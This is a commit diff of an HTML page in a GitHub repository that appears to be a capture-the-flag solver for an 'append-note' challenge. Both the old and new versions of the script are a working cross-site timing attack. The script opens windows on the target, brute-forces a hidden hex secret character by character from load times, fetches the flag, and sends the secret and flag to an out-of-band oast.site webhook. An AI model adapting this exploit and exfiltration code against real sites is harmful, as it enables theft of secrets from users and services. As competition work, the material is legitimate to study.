

Before and after one commit to Gurpratap-Smagh/cybersecurity, a plain HTML site: page HUH/aa.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor HTML and JavaScript for brute force solver

```diff
--- a/HUH/aa.html
+++ b/HUH/aa.html
@@ -1,120 +1,94 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <meta charset="UTF-8">
-    <title>Append-Note: Final Strike</title>
+    <title>STARK ENT. - APPEND_NOTE_SOLVER</title>
     <style>
-        body { background: #0d1117; color: #c9d1d9; font-family: 'Courier New', monospace; padding: 20px; }
-        #status { font-size: 20px; color: #58a6ff; margin-bottom: 10px; border-bottom: 1px solid #30363d; }
-        #log { background: #010409; padding: 10px; height: 300px; overflow-y: auto; border: 1px solid #30363d; font-size: 13px; }
-        .win { color: #3fb950; font-weight: bold; }
-        .sys { color: #8b949e; }
+        body { background: #0d1117; color: #58a6ff; font-family: 'Fira Code', monospace; padding: 20px; }
+        .log-entry { border-left: 2px solid #30363d; padding-left: 10px; margin: 5px 0; font-size: 13px; }
+        .success { color: #3fb950; font-weight: bold; }
+        .delta { color: #d29922; }
     </style>
 </head>
 <body>
-    <div id="status">System Initializing...</div>
+    <h2 id="status">INITIATING BRUTE FORCE...</h2>
     <div id="log"></div>
 
 <script>
-    const TARGET = "https://append-note-61jaz.instancer.lac.tf/";
-    const WEBHOOK = "https://bbote0qi0v6t4dwpqhu8mm6qzrudvnz0i.oast.site";
+    const TARGET = "https://append-note-a2aq0.instancer.lac.tf";
+    const WEBHOOK = "https://wgke111cwekqzutsmjaxclt0cdqzf94st.oast.site";
     const CHARS = "0123456789abcdef";
 
-    // Performance Tunables
-    const MAX_WAIT = 250; // Max time to wait for a window to load
-    const SAMPLES = 1;    // Speed over accuracy for the 60s bot
-
-    const log = (m, c="") => {
-        const d = document.createElement("div");
-        if(c) d.className = c;
-        d.textContent = `[${new Date().toLocaleTimeString()}] ${m}`;
-        document.getElementById("log").appendChild(d);
-        document.getElementById("log").scrollTop = 1e9;
+    const log = (msg, cls="") => {
+        const div = document.createElement("div");
+        div.className = "log-entry " + cls;
+        div.textContent = `[${new Date().toLocaleTimeString()}] ${msg}`;
+        document.getElementById("log").prepend(div);
     };
 
-    const report = (data) => {
-        navigator.sendBeacon(WEBHOOK, JSON.stringify(data));
-    };
+    const report = (data) => fetch(`${WEBHOOK}?data=${encodeURIComponent(JSON.stringify(data))}`, {mode:'no-cors'});
 
-    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
+    async function probe(content) {
+        const t0 = performance.now();
+        // Use a unique name for each window to prevent state collisions
+        const w = window.open(`${TARGET}/append?content=${content}&url=${window.location.href}`, `w_${Math.random()}`);
 
-    async function probe(prefix) {
-        const url = `${TARGET}/append?content=${encodeURIComponent(prefix)}&url=${encodeURIComponent(window.location.href)}`;
-        return new Promise((resolve) => {
-            const t0 = performance.now();
-            const w = window.open(url, "_blank", "width=10,height=10");
-
-            let timer = setTimeout(() => {
+        return new Promise(r => {
+            // We wait for a fixed window. If it redirects back to us, it's faster.
+            setTimeout(() => {
+                const elapsed = performance.now() - t0;
                 if(w) w.close();
-                resolve(performance.now() - t0);
-            }, MAX_WAIT);
-
-            // If we can catch the load event, we get a tighter measurement
-            try {
-                w.onload = () => {
-                    clearTimeout(timer);
-                    const dur = performance.now() - t0;
-                    w.close();
-                    resolve(dur);
-                };
-            } catch(e) {}
+                r(elapsed);
+            }, 450); // Tuned for remote latency
         });
     }
 
-    async function run() {
-        log("Phase 1: Calibrating Sensors...", "sys");
-        const base404 = await probe("non_existent_prefix_" + Math.random());
-        report({ event: "boot", base_latency: base404 });
-
+    async function solve() {
         let secret = "";
-        log("Phase 2: Initiating Brute Force...", "sys");
+        log("Calibrating Baseline...", "delta");
+        const baseline = await probe("NOT_REAL_" + Math.random());
+        log(`Baseline Latency: ${baseline.toFixed(2)}ms`);
 
         for (let i = 0; i < 8; i++) {
-            let bestChar = "";
+            let winner = "";
             let minTime = 9999;
-
-            document.getElementById("status").textContent = `Cracking Pos ${i+1}: ${secret}...`;
+            log(`CRACKING POSITION ${i+1}...`);
 
             for (const c of CHARS) {
-                const time = await probe(secret + c);
-                log(`Trying ${c}: ${time.toFixed(2)}ms`);
+                const attempt = secret + c;
+                const time = await probe(attempt);
+                const delta = time - baseline;
 
+                log(`Try ${c}: ${time.toFixed(1)}ms (Delta: ${delta.toFixed(1)}ms)`);
+
+                // In Python's any(), the TRUE case is the fastest (Short-circuit)
                 if (time < minTime) {
                     minTime = time;
-                    bestChar = c;
+                    winner = c;
+                }
+
+                // If we see a massive speedup (e.g., >50ms difference), we likely found it.
+                if (delta < -40) {
+                    log(`High Signal Detected for ${c}!`, "success");
+                    break;
                 }
             }
 
-            // Confirmation Step: Quickly verify the winner before committing
-            log(`Found Candidate: ${bestChar}. Verifying...`, "sys");
-            const verify = await probe(secret + bestChar);
+            secret += winner;
+            log(`LOCKED IN: ${secret}`, "success");
+            report({pos: i, char: winner, current: secret, time: minTime});
 
-            if (verify <= minTime + 5) { // Within a 5ms tolerance
-                secret += bestChar;
-                log(`Confirmed: ${bestChar}`, "win");
-                report({ pos: i, char: bestChar, current_secret: secret });
-            } else {
-                log(`Noise detected for ${bestChar}. Retrying...`, "sys");
-                i--; // Step back and retry the position
-            }
+            // Short sleep to let the browser breathe before next round
+            await new Promise(r => setTimeout(r, 100));
         }
 
-        log(`Full Secret Acquired: ${secret}`, "win");
-        report({ event: "success", final_secret: secret });
-
-        // Attempt to grab flag
-        const res = await fetch(`${TARGET}/flag?secret=${secret}`);
-        const flag = await res.text();
-        log(`FLAG: ${flag}`, "win");
-        report({ flag: flag });
-        document.getElementById("status").textContent = "MISSION ACCOMPLISHED";
+        log(`FINAL SECRET: ${secret}`, "success");
+        const flagRes = await fetch(`${TARGET}/flag?secret=${secret}`);
+        const flag = await flagRes.text();
+        report({FLAG: flag});
+        document.getElementById("status").textContent = "FLAG CAPTURED: " + flag;
     }
 
-    // Start on load
-    window.onload = () => {
-        log("Vitals Check: OK. Bypassing Proxies...");
-        run();
-    };
+    window.onload = solve;
 </script>
 </body>
 </html>
```
